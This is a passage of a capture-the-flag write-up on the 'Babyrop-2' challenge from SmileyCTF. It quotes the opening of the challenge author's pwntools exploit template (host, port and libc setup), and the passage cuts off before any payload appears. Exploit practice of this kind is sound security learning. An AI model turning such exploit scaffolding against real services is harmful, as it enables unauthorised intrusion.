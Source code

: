 
The author of this exploit comments about this exploit `mangling rax` which is make sense 

![5ee6285827f4a10addff8eae00581c5e.png](/images/SmileyCTF/SmileyCTF-Babyrop-2/5ee6285827f4a10addff8eae00581c5e.png)

It was fun and painfull to me, The last exploit i developed like 5 years or smt like that. So it was a good practice. 

The shared PoC code didn't work in my environment, i edited a bit in mine version. Here is the shared PoC code for this challange by the author.

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host smiley.cat --port 46657
from pwn import *

context.terminal = ["kitten", "@", "launch", "--type", "tab"]

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'vuln')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'smiley.cat'
port = int(args.PORT or 42447)

# Use the specified remote libc version unless explicitly told to use the
# local system version with the `LOCAL_LIBC` argument.
# ./exploit.py LOCAL LOCAL_LIBC
if args.LOCAL_LIBC:
    libc = exe.libc
elif args.LOCAL:
    library_path = libcdb.download_libraries('libc.so.6')
    if library_path:
        exe = context.binary = ELF.patch_custom_libraries(exe.path, library_path)
        libc = exe.libc
    else:
        libc = ELF('libc.so.6')
else:
    libc = ELF('libc.so.6')

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
```